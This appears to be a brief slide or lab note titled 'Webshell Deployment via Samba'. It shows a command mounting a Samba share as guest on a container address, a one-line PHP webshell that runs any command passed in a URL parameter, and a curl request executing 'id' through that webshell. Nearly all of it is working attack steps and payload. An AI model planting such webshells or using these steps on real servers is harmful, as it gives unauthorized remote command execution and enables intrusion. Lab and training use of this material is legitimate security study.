

Mounted Samba share locally:
sudo mount -t cifs //172.17.0.2/app /mnt/ -o username=guest,port=445
Uploaded shell.php for command execution:
<?php system($_GET['cmd']); ?>
Command execution tested successfully through webshell:
curl "http://127.0.0.1/shell.php?cmd=id"
# Webshell Deployment via Samba